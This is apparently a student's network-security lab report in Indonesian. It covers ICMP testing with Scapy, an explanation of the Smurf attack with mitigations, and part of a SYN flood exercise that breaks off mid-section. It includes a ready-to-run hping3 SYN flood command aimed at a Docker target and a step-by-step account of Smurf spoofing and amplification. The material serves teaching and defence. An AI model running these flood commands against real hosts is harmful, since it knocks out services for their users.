| `--rm` | Menghapus container secara otomatis setelah proses selesai |
| `--network lab-arp-k2` | Menghubungkan container pengirim ke jaringan Docker `lab-arp-k2` |
| `-v "${PWD}/kasus/k5-scapy:/work"` | Menghubungkan direktori script pada host ke direktori `/work` di dalam container |
| `uts-kali-tools` | Docker Image yang digunakan untuk menjalankan pengujian |
| `python3` | Menjalankan interpreter Python |
| `/work/kirim_icmp.py` | Menentukan lokasi script yang akan dijalankan |
| `$ipKorban` | Variabel PowerShell yang berisi alamat IP container korban |

Melalui perintah tersebut, Docker menjalankan container sementara yang terhubung ke jaringan `lab-arp-k2`.

Selanjutnya, Python mengeksekusi script `kirim_icmp.py` dengan alamat IP korban sebagai argumen.

## 3.3 Proses Pengiriman Paket ICMP

Setelah perintah dijalankan, script melakukan pembentukan dan pengiriman paket ICMP menggunakan Scapy.

Paket yang dikirimkan merupakan ICMP Echo Request dengan alamat IP sumber `172.18.0.5` dan alamat IP tujuan `172.18.0.2`.

Berdasarkan output terminal, diperoleh informasi:

```text
Mengirim: IP / ICMP 172.18.0.5 > 172.18.0.2 echo-request 0
```

Informasi tersebut dapat dijelaskan sebagai berikut:

- `IP`: menunjukkan bahwa paket menggunakan protokol Internet Protocol.
- `ICMP`: menunjukkan bahwa paket membawa pesan Internet Control Message Protocol.
- `172.18.0.5`: merupakan alamat IP sumber atau pengirim.
- `172.18.0.2`: merupakan alamat IP tujuan atau korban.
- `echo-request`: menunjukkan jenis pesan ICMP yang dikirimkan.
- `0`: merupakan nilai identifikasi atau nomor urut yang ditampilkan pada representasi paket oleh Scapy dalam output tersebut.

Dengan demikian, paket ICMP Echo Request berhasil dibentuk dan dikirimkan dari container pengirim menuju perangkat korban.

## 3.4 Hasil Pengujian

Setelah paket ICMP dikirimkan, script menerima respons dari perangkat tujuan.

Berikut merupakan output lengkap berdasarkan hasil pengujian:

```text
Mengirim: IP / ICMP 172.18.0.5 > 172.18.0.2 echo-request 0
TTL balasan: 64
Tipe ICMP balasan: 0
```

Berdasarkan output tersebut, diperoleh dua informasi utama:

**1. TTL Balasan: 64**

Nilai TTL (*Time To Live*) pada paket balasan adalah 64.

TTL merupakan nilai pada header IP yang digunakan untuk membatasi jumlah hop yang dapat dilalui suatu paket sebelum dibuang oleh router.

Setiap router yang meneruskan paket akan mengurangi nilai TTL setidaknya satu angka.

Nilai TTL 64 sering digunakan sebagai nilai awal pada sistem berbasis Linux. Namun, nilai tersebut tidak secara khusus membuktikan jenis sistem operasi karena TTL dapat berubah selama perjalanan paket dan dapat pula dikonfigurasi berbeda.

**2. Tipe ICMP Balasan: 0**

Nilai tipe ICMP yang diterima adalah 0.

Dalam protokol ICMP, tipe 0 menunjukkan pesan Echo Reply.

Pesan tersebut merupakan respons normal terhadap ICMP Echo Request yang sebelumnya dikirimkan oleh perangkat sumber.

Dengan demikian, perangkat korban berhasil menerima permintaan ICMP dan memberikan respons kepada pengirim.

## 3.5 Analisis Hasil Pengujian

Berdasarkan keseluruhan output, dapat diketahui bahwa proses komunikasi ICMP antara container pengirim dan container korban berjalan dengan baik.

Paket Echo Request berhasil dikirimkan dari alamat IP `172.18.0.5` menuju `172.18.0.2`.

Perangkat korban kemudian memberikan respons berupa Echo Reply dengan tipe ICMP 0.

Selain itu, nilai TTL balasan sebesar 64 menunjukkan bahwa paket respons diterima dengan nilai TTL tersebut pada saat diamati oleh script.

Hasil ini memperlihatkan bahwa:

1. Container pengirim berhasil menjalankan script Python menggunakan Scapy.
2. Paket ICMP Echo Request berhasil dikirimkan melalui jaringan Docker.
3. Container korban dapat menerima permintaan ICMP.
4. Container korban memberikan respons Echo Reply.
5. Informasi TTL dan tipe ICMP berhasil diperoleh melalui proses analisis paket.

Dengan demikian, pengujian ICMP menggunakan Scapy dinyatakan berhasil.

## 3.6 Dokumentasi Screenshot



**Gambar 1.** Hasil eksekusi script `kirim_icmp.py` menggunakan Scapy melalui container Docker. Terlihat bahwa paket ICMP Echo Request dikirim dari IP `172.18.0.5` menuju IP korban `172.18.0.2`, kemudian memperoleh balasan dengan TTL 64 dan tipe ICMP 0 (Echo Reply).

---

# 4. ANALISIS PARAMETER DAN JENIS PESAN ICMP

## 4.1 Analisis Alamat IP Sumber dan Tujuan

Berdasarkan hasil pengujian, alamat IP sumber dan tujuan yang digunakan adalah:

| Parameter | Nilai | Keterangan |
|---|---|---|
| IP Sumber | `172.18.0.5` | Container pengirim |
| IP Tujuan | `172.18.0.2` | Container korban |
| Protokol | ICMP | Protokol pengiriman pesan kontrol jaringan |

Alamat IP sumber menunjukkan perangkat yang mengirimkan paket, sedangkan alamat IP tujuan menunjukkan perangkat yang menerima paket tersebut.

Pada pengujian ini, kedua alamat berada dalam jaringan Docker yang sama sehingga komunikasi dapat dilakukan secara langsung melalui jaringan virtual Docker.

## 4.2 Analisis Time To Live (TTL)

Time To Live (TTL) merupakan salah satu field dalam header IPv4 yang berfungsi membatasi masa hidup paket di dalam jaringan.

Setiap kali paket melewati router, nilai TTL akan dikurangi satu.

Apabila TTL mencapai nilai nol, paket akan dibuang sehingga tidak terus berputar di dalam jaringan.

Pada praktikum ini, nilai TTL balasan yang diperoleh adalah:

```text
TTL balasan: 64
```

Nilai tersebut menunjukkan bahwa paket Echo Reply diterima oleh script dengan TTL sebesar 64.

TTL awal yang digunakan oleh perangkat pengirim respons dapat berbeda-beda bergantung pada sistem operasi dan konfigurasi jaringan.

Oleh karena itu, nilai TTL dapat digunakan sebagai salah satu informasi pendukung dalam analisis jaringan, tetapi tidak cukup untuk memastikan identitas sistem operasi suatu perangkat secara pasti.

## 4.3 Analisis Tipe ICMP

ICMP memiliki beberapa tipe pesan yang digunakan untuk kebutuhan komunikasi dan pelaporan kondisi jaringan.

Dalam pengujian ini diperoleh:

```text
Tipe ICMP balasan: 0
```

Tipe 0 merupakan ICMP Echo Reply.

Berikut merupakan beberapa tipe ICMP yang umum dikenal:

| Tipe ICMP | Nama Pesan | Fungsi |
|---|---|---|
| 0 | Echo Reply | Memberikan balasan terhadap Echo Request |
| 3 | Destination Unreachable | Menunjukkan bahwa tujuan tidak dapat dijangkau |
| 5 | Redirect | Memberikan informasi perubahan rute |
| 8 | Echo Request | Meminta respons dari perangkat tujuan |
| 11 | Time Exceeded | Menunjukkan bahwa TTL paket telah habis |

Pada praktikum ini, tipe ICMP 0 menunjukkan bahwa perangkat korban berhasil memberikan respons terhadap permintaan Echo Request.

Dengan demikian, hasil tersebut sesuai dengan perilaku komunikasi ICMP normal.

---

# 5. PENJELASAN SMURF ATTACK

## 5.1 Pengertian Smurf Attack

Smurf Attack merupakan salah satu jenis serangan Denial of Service (DoS) berbasis ICMP yang memanfaatkan teknik IP Spoofing dan alamat broadcast untuk menghasilkan lalu lintas balasan dalam jumlah besar menuju perangkat korban.

Serangan ini bekerja dengan mengirimkan paket ICMP Echo Request ke alamat broadcast jaringan menggunakan alamat IP korban sebagai alamat sumber palsu.

Karena paket dikirimkan ke alamat broadcast, beberapa perangkat dalam jaringan dapat menerima permintaan tersebut secara bersamaan.

Perangkat yang menerima Echo Request kemudian dapat mengirimkan ICMP Echo Reply kepada alamat sumber yang tercantum pada paket.

Karena alamat sumber telah dipalsukan menjadi alamat IP korban, seluruh balasan tersebut akan diarahkan menuju perangkat korban.

Akibatnya, korban dapat menerima sejumlah besar paket balasan ICMP dalam waktu bersamaan.

Kondisi tersebut dapat menghabiskan bandwidth jaringan serta sumber daya perangkat korban hingga menyebabkan layanan menjadi lambat atau tidak dapat diakses.

## 5.2 Mekanisme Kerja Smurf Attack

Secara umum, Smurf Attack memiliki beberapa tahapan sebagai berikut.

**1. Menentukan Jaringan Broadcast**

Penyerang menentukan alamat broadcast dari jaringan target.

Sebagai contoh, pada jaringan `192.168.1.0/24`, alamat broadcast-nya adalah:

```text
192.168.1.255
```

Alamat tersebut digunakan untuk mengirimkan paket ke seluruh perangkat dalam segmen jaringan yang menerima broadcast tersebut.

**2. Melakukan IP Spoofing**

Penyerang membuat paket ICMP Echo Request dengan alamat IP sumber yang dipalsukan menjadi alamat IP korban.

Dengan demikian, perangkat yang menerima paket akan menganggap bahwa permintaan tersebut berasal dari korban.

**3. Mengirimkan ICMP Echo Request ke Broadcast**

Paket ICMP Echo Request dikirimkan menuju alamat broadcast jaringan.

Seluruh perangkat yang menerima dan merespons broadcast tersebut dapat menghasilkan ICMP Echo Reply.

**4. Mengarahkan Balasan ke Korban**

Karena alamat IP sumber telah dipalsukan, perangkat yang memberikan respons akan mengirimkan Echo Reply menuju alamat IP korban.

Akibatnya, korban menerima banyak paket ICMP Reply dari berbagai perangkat dalam jaringan.

**5. Terjadinya Amplifikasi dan Denial of Service**

Jumlah paket balasan yang diterima korban dapat jauh lebih banyak dibandingkan jumlah paket yang dikirimkan oleh penyerang.

Fenomena ini disebut efek amplifikasi.

Apabila berlangsung dalam jumlah besar, lalu lintas tersebut dapat menghabiskan bandwidth dan sumber daya perangkat sehingga layanan korban mengalami gangguan.

## 5.3 Ilustrasi Alur Smurf Attack

Berikut merupakan gambaran sederhana mekanisme Smurf Attack:

```text
             PENYERANG
                 |
                 |
        ICMP Echo Request
        Source IP = IP Korban
        Destination = Broadcast
                 |
                 v
        +------------------+
        |  Jaringan Target |
        |  192.168.1.255   |
        +------------------+
           /     |      \
          /      |       \
         v       v        v
      Host A   Host B   Host C
         |       |        |
         |       |        |
         +-------+--------+
                 |
          ICMP Echo Reply
                 |
                 v
              KORBAN
          (IP yang dipalsukan)
                 |
                 v
       Beban jaringan meningkat
```

Ilustrasi tersebut menunjukkan bahwa satu permintaan ICMP yang dikirimkan ke alamat broadcast dapat menghasilkan beberapa balasan dari perangkat yang menerima permintaan tersebut.

Seluruh balasan diarahkan kepada korban karena alamat IP sumber pada paket awal telah dipalsukan.

## 5.4 Perbedaan ICMP Normal dan Smurf Attack

Meskipun keduanya menggunakan protokol ICMP, komunikasi ICMP normal dan Smurf Attack memiliki karakteristik yang berbeda.

| Aspek | ICMP Normal | Smurf Attack |
|---|---|---|
| Tujuan | Menguji konektivitas jaringan | Mengganggu ketersediaan layanan korban |
| Jenis Paket | Echo Request dan Echo Reply | Echo Request yang dimanipulasi |
| IP Sumber | Alamat IP pengirim sebenarnya | Alamat IP korban yang dipalsukan |
| IP Tujuan | Satu perangkat tertentu | Alamat broadcast jaringan |
| Jumlah Respons | Umumnya satu balasan per permintaan | Dapat menghasilkan banyak balasan |
| Dampak | Membantu pemeriksaan jaringan | Dapat menyebabkan DoS atau gangguan layanan |

Pada praktikum ini, pengujian yang dilakukan merupakan komunikasi ICMP normal karena paket dikirimkan langsung menuju satu alamat IP korban dan memperoleh satu respons Echo Reply.

Tidak terdapat bukti bahwa paket dikirimkan ke alamat broadcast atau menggunakan IP spoofing.

Oleh karena itu, pembahasan Smurf Attack pada laporan ini merupakan analisis konsep serangan, bukan hasil demonstrasi serangan Smurf secara langsung.

---

# 6. ANALISIS DAMPAK DAN MITIGASI SMURF ATTACK

## 6.1 Dampak Smurf Attack

Smurf Attack dapat memberikan dampak terhadap ketersediaan layanan jaringan karena menghasilkan lalu lintas ICMP dalam jumlah besar menuju perangkat korban.

Beberapa dampak yang dapat terjadi antara lain:

**1. Peningkatan Penggunaan Bandwidth**

Banyaknya paket ICMP Echo Reply yang diterima korban dapat menyebabkan penggunaan bandwidth meningkat secara signifikan.

**2. Penurunan Performa Perangkat**

Perangkat korban harus memproses sejumlah besar paket masuk sehingga penggunaan CPU dan sumber daya jaringan dapat meningkat.

**3. Gangguan Ketersediaan Layanan**

Apabila lalu lintas yang diterima terlalu besar, perangkat korban dapat mengalami penurunan performa hingga layanan menjadi tidak responsif.

**4. Gangguan pada Infrastruktur Jaringan**

Jaringan yang menjadi perantara maupun jaringan korban dapat mengalami peningkatan beban lalu lintas yang berpotensi mengganggu komunikasi normal.

## 6.2 Mitigasi Smurf Attack

Beberapa langkah mitigasi yang dapat diterapkan untuk mengurangi risiko Smurf Attack adalah sebagai berikut.

**1. Menonaktifkan Directed Broadcast**

Administrator jaringan dapat menonaktifkan fitur directed broadcast pada router.

Tujuannya adalah mencegah paket broadcast yang berasal dari luar jaringan diteruskan ke seluruh perangkat dalam jaringan internal.

Contoh konfigurasi pada perangkat Cisco:

```text
no ip directed-broadcast
```

**2. Menerapkan Ingress dan Egress Filtering**

Ingress filtering digunakan untuk memeriksa paket yang masuk ke jaringan, sedangkan egress filtering digunakan untuk memeriksa paket yang keluar dari jaringan.

Penerapan filtering berdasarkan prinsip BCP 38 membantu mencegah pengiriman paket dengan alamat IP sumber yang tidak sesuai atau dipalsukan.

**3. Membatasi ICMP Broadcast**

Administrator dapat menerapkan aturan firewall untuk membatasi atau memblokir lalu lintas ICMP yang ditujukan ke alamat broadcast apabila tidak diperlukan.

**4. Menerapkan Rate Limiting**

Rate limiting digunakan untuk membatasi jumlah paket ICMP yang dapat diterima atau diproses dalam interval waktu tertentu.

Langkah ini dapat membantu mengurangi dampak lalu lintas ICMP yang berlebihan.

**5. Melakukan Pemantauan Lalu Lintas Jaringan**

Pemantauan jaringan dapat membantu administrator mendeteksi peningkatan lalu lintas ICMP yang tidak normal.

Apabila ditemukan pola komunikasi yang mencurigakan, administrator dapat melakukan pemeriksaan dan menerapkan aturan keamanan yang sesuai.

---

# 7. REKAPITULASI DAN ANALISIS HASIL PRAKTIKUM

## 7.1 Rekapitulasi Hasil Pengujian

Berdasarkan proses pengiriman dan analisis paket ICMP menggunakan Scapy, diperoleh hasil sebagai berikut:

| No. | Parameter | Hasil | Keterangan |
|---|---|---|---|
| 1 | IP Sumber | `172.18.0.5` | Container pengirim |
| 2 | IP Tujuan | `172.18.0.2` | Container korban |
| 3 | Protokol | ICMP | Protokol komunikasi |
| 4 | Jenis Permintaan | Echo Request | Permintaan respons ICMP |
| 5 | TTL Balasan | `64` | Nilai TTL paket balasan |
| 6 | Tipe ICMP Balasan | `0` | Echo Reply |
| 7 | Status Pengujian | Berhasil | Korban memberikan respons |

## 7.2 Analisis Keseluruhan

Berdasarkan hasil pengujian, dapat diketahui bahwa komunikasi ICMP antara container pengirim dan container korban berhasil dilakukan.

Pengiriman paket menggunakan Scapy memungkinkan proses pembentukan dan pengiriman paket dilakukan melalui script Python.

Hasil menunjukkan bahwa paket ICMP Echo Request dikirimkan dari alamat IP `172.18.0.5` menuju alamat IP `172.18.0.2`.

Perangkat korban kemudian memberikan respons berupa ICMP Echo Reply dengan tipe 0 dan nilai TTL 64.

Hal tersebut menunjukkan bahwa perangkat tujuan dapat dijangkau melalui jaringan Docker dan mampu memberikan respons terhadap permintaan ICMP.

Selain itu, melalui praktikum ini dapat dipahami bahwa ICMP tidak hanya digunakan untuk menguji konektivitas jaringan, tetapi juga dapat disalahgunakan dalam serangan tertentu seperti Smurf Attack apabila dikombinasikan dengan teknik IP Spoofing dan broadcast.

Dengan demikian, administrator jaringan perlu memahami karakteristik paket ICMP serta menerapkan pengamanan yang tepat untuk mencegah penyalahgunaan protokol tersebut.

---

# 8. KESIMPULAN

Berdasarkan pelaksanaan Tugas 5 (Pertemuan 5) mengenai ICMP dengan Scapy pada Kasus 2 (`k2`), dapat disimpulkan bahwa pengujian komunikasi ICMP berhasil dilakukan menggunakan library Scapy melalui lingkungan Docker.

Pada pengujian ini, script `kirim_icmp.py` dijalankan menggunakan Docker Image `uts-kali-tools` dengan tujuan mengirimkan paket ICMP Echo Request dari container pengirim menuju container korban.

Hasil pengujian menunjukkan bahwa paket dikirimkan dari alamat IP `172.18.0.5` menuju `172.18.0.2`. Perangkat korban berhasil memberikan respons dengan nilai TTL sebesar 64 dan tipe ICMP 0 yang menunjukkan pesan Echo Reply.

Keberhasilan tersebut membuktikan bahwa komunikasi ICMP antara kedua container dapat berlangsung dengan baik dan informasi paket berhasil dianalisis menggunakan Scapy.

Selain pengujian komunikasi normal, praktikum ini juga memberikan pemahaman mengenai Smurf Attack, yaitu serangan berbasis ICMP yang memanfaatkan IP Spoofing dan alamat broadcast untuk menghasilkan efek amplifikasi lalu lintas menuju perangkat korban.

Dari pembahasan tersebut dapat diketahui bahwa protokol ICMP yang pada dasarnya digunakan untuk kebutuhan diagnostik jaringan juga dapat disalahgunakan untuk mengganggu ketersediaan layanan.

Oleh karena itu, diperlukan penerapan mekanisme keamanan seperti menonaktifkan directed broadcast, melakukan ingress dan egress filtering, menerapkan pembatasan ICMP, serta memantau lalu lintas jaringan secara berkala.

Secara keseluruhan, praktikum ini memberikan pemahaman mengenai penggunaan Scapy dalam manipulasi dan analisis paket jaringan, mekanisme komunikasi ICMP, serta potensi ancaman dan langkah mitigasi terhadap serangan Smurf.

---

# 9. LAMPIRAN DAN DOKUMENTASI

## 9.1 Daftar File Praktikum

| No. | Nama File | Keterangan |
|---|---|---|
| 1 | `kirim_icmp.py` | Script Python untuk pengujian ICMP menggunakan Scapy |
| 2 | `hasil.md` | Dokumentasi hasil praktikum |
| 3 | `01.png` | Screenshot hasil pengujian ICMP |

## 9.2 Dokumentasi Screenshot


**Gambar 1.** Hasil eksekusi script `kirim_icmp.py` menggunakan Scapy. Terlihat paket ICMP Echo Request dikirim dari alamat IP `172.18.0.5` menuju perangkat korban `172.18.0.2`. Perangkat tujuan memberikan respons dengan TTL 64 dan tipe ICMP 0 (Echo Reply).

---

<!-- Dokumentasi lengkap Tugas 6; sumber: tugas6/hasil.md -->

# TUGAS 6 (PERTEMUAN 6)
# SYN FLOOD DAN TCP THREE-WAY HANDSHAKE — KASUS 2 (K2)

## IDENTITAS DAN PARAMETER LAB

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
| Pertemuan | Pertemuan 6 |
| Tugas | SYN Flood dan Three-Way Handshake |
| Kasus | Kasus 2 (`k2`) |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Lingkungan Pengujian | Docker Desktop |
| Docker Compose Project | `k2` |
| Docker Image Attacker | `uts-kali-tools` |
| Service Target | `target` |
| Service Attacker | `attacker` |
| Web Server | Nginx |
| Port Pengujian | TCP 80 |
| Tools Pengujian | hping3, netstat, tcpdump, curl |

---

# 1. PENDAHULUAN

## 1.1 Tujuan Praktikum

Praktikum ini bertujuan untuk memahami mekanisme komunikasi TCP melalui proses Three-Way Handshake serta mempelajari salah satu bentuk serangan Denial of Service (DoS), yaitu SYN Flood.

Pengujian dilakukan menggunakan lingkungan Docker Compose yang terdiri dari dua service utama, yaitu `target` sebagai server tujuan dan `attacker` sebagai perangkat penyerang.

Pada praktikum ini, dilakukan pengamatan terhadap jumlah koneksi TCP dengan status `SYN_RECV` sebelum dan selama serangan berlangsung. Selanjutnya, dilakukan pengamatan terhadap paket TCP menggunakan `tcpdump` untuk memahami proses pembentukan koneksi melalui Three-Way Handshake.

Melalui praktikum ini, diharapkan dapat dipahami bagaimana proses pembentukan koneksi TCP bekerja, bagaimana serangan SYN Flood memanfaatkan proses tersebut, serta bagaimana mekanisme mitigasi dapat membantu melindungi server dari serangan yang membanjiri permintaan koneksi.

Adapun tujuan khusus praktikum ini adalah:

1. Memahami mekanisme TCP Three-Way Handshake.
2. Mengetahui fungsi paket SYN, SYN-ACK, dan ACK dalam pembentukan koneksi TCP.
3. Menjalankan simulasi SYN Flood menggunakan `hping3`.
4. Mengamati jumlah koneksi dengan status `SYN_RECV` sebelum dan selama serangan.
5. Melakukan analisis paket TCP menggunakan `tcpdump`.
6. Memahami perbedaan koneksi TCP normal dengan koneksi yang dihasilkan oleh serangan SYN Flood.
7. Mengetahui mekanisme SYN Cookies sebagai salah satu metode mitigasi SYN Flood.

## 1.2 Konsep Dasar TCP

Transmission Control Protocol (TCP) merupakan protokol transport yang digunakan untuk menyediakan komunikasi data yang berorientasi koneksi (*connection-oriented*).

Sebelum melakukan pertukaran data, TCP memerlukan proses pembentukan koneksi antara client dan server.

Proses tersebut dikenal sebagai Three-Way Handshake, yaitu pertukaran tiga paket utama:

- SYN (Synchronize)
- SYN-ACK (Synchronize-Acknowledgment)
- ACK (Acknowledgment)

Melalui proses tersebut, kedua perangkat melakukan sinkronisasi nomor urut (*sequence number*) dan mengonfirmasi kesiapan untuk melakukan komunikasi.

Setelah proses Three-Way Handshake selesai, koneksi TCP berada dalam kondisi `ESTABLISHED` dan dapat digunakan untuk pertukaran data.

## 1.3 Konsep Dasar SYN Flood

SYN Flood merupakan salah satu jenis serangan Denial of Service (DoS) yang memanfaatkan mekanisme pembentukan koneksi TCP.

Serangan ini dilakukan dengan mengirimkan sejumlah besar paket SYN kepada server tanpa menyelesaikan proses Three-Way Handshake.

Dalam kondisi normal, server akan menerima paket SYN, kemudian mengirimkan SYN-ACK sebagai balasan. Selanjutnya, server menunggu paket ACK dari client untuk menyelesaikan pembentukan koneksi.

Pada serangan SYN Flood, penyerang mengirimkan banyak permintaan SYN tetapi tidak menyelesaikan tahap terakhir handshake.

Akibatnya, server dapat memiliki banyak koneksi yang berada dalam kondisi setengah terbuka (*half-open connection*).

Apabila jumlah koneksi tersebut melebihi kapasitas antrean koneksi yang tersedia, server berpotensi mengalami gangguan dalam menerima koneksi baru yang sah.

---

# 2. PERSIAPAN LINGKUNGAN PENGUJIAN

## 2.1 Topologi Pengujian

Pengujian dilakukan menggunakan Docker Compose dengan dua service utama yang berada dalam satu lingkungan jaringan virtual.

Kedua service memiliki peran berbeda dalam simulasi SYN Flood.

| Service | Peran | Fungsi |
|---|---|---|
| `target` | Server tujuan | Menjalankan layanan web Nginx pada port TCP 80 |
| `attacker` | Penyerang | Menjalankan tools pengujian jaringan seperti hping3, tcpdump, dan curl |

Container `target` digunakan sebagai server yang menerima permintaan koneksi TCP, sedangkan container `attacker` digunakan untuk menjalankan simulasi SYN Flood dan melakukan pengamatan paket jaringan.

Web server Nginx pada service `target` digunakan sebagai layanan yang menjadi tujuan koneksi HTTP.

## 2.2 Struktur File Praktikum

File konfigurasi Docker Compose yang digunakan berada pada direktori:

```text
b/b3-syn-flood/docker-compose.yml
```

File tersebut berisi konfigurasi service yang diperlukan untuk menjalankan lingkungan simulasi SYN Flood.

Struktur direktori praktikum:

```text
01-sumber-lab/
│
├── hasil.md
│
├── b/
│   └── b3-syn-flood/
│       └── docker-compose.yml
│
└── screenshot/
    ├── 01.png
    ├── 02.png
    ├── 03.png
    ├── 04.png
    ├── 05.png
    └── 06.png
```

## 2.3 Menjalankan Lingkungan Docker Compose

Langkah pertama adalah menjalankan seluruh service yang telah didefinisikan pada file Docker Compose.

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml up -d
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah Docker Compose |
| `-p k2` | Menentukan nama project Docker Compose |
| `-f` | Menentukan lokasi file konfigurasi Compose |
| `b/b3-syn-flood/docker-compose.yml` | File konfigurasi lingkungan praktikum |
| `up` | Membuat dan menjalankan service |
| `-d` | Menjalankan container di latar belakang |

Setelah perintah dijalankan, Docker Compose akan membuat dan menjalankan service `target` dan `attacker` sesuai dengan konfigurasi yang telah ditentukan.

Dengan demikian, lingkungan simulasi telah dipersiapkan untuk melakukan pengujian koneksi TCP dan SYN Flood.

## 2.4 Dokumentasi Screenshot



**Gambar 1.** Proses menjalankan lingkungan praktikum menggunakan Docker Compose. Service `target` digunakan sebagai server Nginx, sedangkan service `attacker` digunakan untuk melakukan simulasi dan analisis jaringan.

---

# 3. PEMERIKSAAN KONDISI AWAL SERVER

## 3.1 Tujuan

Sebelum melakukan simulasi SYN Flood, terlebih dahulu dilakukan pemeriksaan terhadap kondisi koneksi TCP pada server target.

Pemeriksaan ini bertujuan untuk mengetahui jumlah koneksi yang berada dalam status `SYN_RECV` sebelum serangan dilakukan.

Status `SYN_RECV` merupakan salah satu status koneksi TCP yang menunjukkan bahwa server telah menerima paket SYN dan mengirimkan SYN-ACK, tetapi belum menerima ACK terakhir dari client.

Kondisi ini berkaitan langsung dengan proses Three-Way Handshake.

Dengan mengetahui jumlah koneksi `SYN_RECV` sebelum serangan, hasil pengamatan dapat dibandingkan dengan kondisi ketika serangan SYN Flood berlangsung.

## 3.2 Perintah Pemeriksaan

Perintah yang digunakan untuk memeriksa koneksi TCP pada server target adalah:

```powershell
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant | Select-String "SYN_RECV"
```

Untuk menghitung jumlah baris yang memiliki status `SYN_RECV`, dapat digunakan perintah:

```powershell
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant | Select-String "SYN_RECV" | Measure-Object -Line
```

Pada lingkungan Linux, perintah yang setara dengan pendekatan soal adalah:

```bash
netstat -ant | grep -c SYN_RECV
```

Penjelasan perintah:

- `docker compose exec target`: menjalankan perintah pada service target yang sedang aktif.
- `netstat -ant`: menampilkan informasi koneksi TCP dalam bentuk numerik.
- `Select-String "SYN_RECV"`: menyaring baris yang memiliki status SYN_RECV pada PowerShell.
- `grep -c SYN_RECV`: menghitung jumlah baris yang memiliki status SYN_RECV pada Linux.

## 3.3 Hasil Pemeriksaan Sebelum Serangan

Berdasarkan hasil pengujian yang didokumentasikan, jumlah koneksi dengan status `SYN_RECV` sebelum serangan adalah:

```text
Jumlah SYN_RECV sebelum serangan: 0
```

Hasil tersebut menunjukkan bahwa pada saat pemeriksaan awal tidak ditemukan koneksi TCP yang berada dalam status `SYN_RECV`.

Dengan kata lain, tidak terdapat koneksi setengah terbuka yang terdeteksi melalui pemeriksaan tersebut sebelum simulasi SYN Flood dilakukan.

Kondisi ini menjadi data pembanding untuk pengujian berikutnya.

## 3.4 Analisis Kondisi Awal

Pada kondisi normal, ketika tidak terdapat permintaan koneksi TCP yang belum diselesaikan, jumlah koneksi dengan status `SYN_RECV` dapat bernilai nol.

Hal tersebut merupakan kondisi yang wajar karena status `SYN_RECV` hanya muncul ketika server sedang menunggu penyelesaian proses Three-Way Handshake.

Dengan demikian, hasil pemeriksaan awal menunjukkan bahwa tidak ditemukan koneksi setengah terbuka pada saat pengamatan dilakukan.

## 3.5 Dokumentasi Screenshot



**Gambar 2.** Pemeriksaan jumlah koneksi TCP dengan status `SYN_RECV` pada service `target` sebelum serangan SYN Flood dijalankan. Hasil pengujian menunjukkan jumlah koneksi sebanyak 0.

---

# 4. SIMULASI SERANGAN SYN FLOOD

## 4.1 Tujuan

Tahap ini merupakan proses utama simulasi serangan SYN Flood.

Pengujian dilakukan menggunakan tools `hping3` yang dijalankan dari service `attacker` menuju service `target`.

hping3 merupakan salah satu tools pengujian jaringan yang memungkinkan pengguna membuat dan mengirimkan paket TCP, UDP, maupun ICMP dengan parameter tertentu.

Pada simulasi ini, hping3 digunakan untuk mengirimkan paket TCP SYN secara terus-menerus menuju port 80 pada server target.

Penggunaan paket SYN bertujuan untuk mensimulasikan banyak permintaan awal pembentukan koneksi TCP tanpa menyelesaikan seluruh tahapan Three-Way Handshake.

## 4.2 Perintah Serangan

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood target
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah melalui Docker Compose |
| `-p k2` | Menggunakan project Docker Compose bernama `k2` |
| `exec -d attacker` | Menjalankan perintah pada service attacker dalam mode detached |
| `timeout 15` | Membatasi proses serangan maksimal selama 15 detik |
| `hping3` | Tools untuk membuat dan mengirim paket jaringan |
| `-S` | Mengatur flag TCP SYN pada paket |
| `-p 80` | Menentukan port tujuan TCP 80 |
| `--flood` | Mengirimkan paket secara terus-menerus dengan kecepatan tinggi |
| `target` | Menentukan server tujuan berdasarkan nama service Docker |

Perintah tersebut menjalankan hping3 pada container attacker dan mengirimkan paket TCP SYN menuju layanan web pada container target.

Opsi `timeout 15` digunakan untuk membatasi durasi pengujian agar proses tidak berjalan tanpa batas waktu.

Sementara itu, opsi `exec -d` membuat proses berjalan di latar belakang sehingga pemeriksaan server dapat dilakukan selama simulasi berlangsung.

## 4.3 Mekanisme Serangan

Pada kondisi normal, server akan menerima paket SYN dan memberikan balasan SYN-ACK kepada client.

Selanjutnya, server menunggu paket ACK sebagai konfirmasi terakhir dari client.

Dalam simulasi SYN Flood, penyerang mengirimkan banyak paket SYN ke server tanpa menyelesaikan proses handshake secara normal.

Apabila server menyimpan informasi koneksi sementara untuk setiap permintaan tersebut, jumlah koneksi setengah terbuka dapat meningkat dan berpotensi memenuhi kapasitas antrean koneksi.

Kondisi tersebut dapat menghambat penerimaan koneksi TCP baru dari client yang sah.

## 4.4 Hasil Pemeriksaan Selama Serangan

Setelah proses SYN Flood dijalankan, dilakukan pemeriksaan kembali terhadap koneksi TCP pada server target.

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant | Select-String "SYN_RECV"
```

Untuk menghitung jumlah koneksi:

```bash
netstat -ant | grep -c SYN_RECV
```

Berdasarkan hasil pengujian yang didokumentasikan, diperoleh jumlah koneksi sebagai berikut:

```text
Jumlah SYN_RECV saat serangan: 0
```

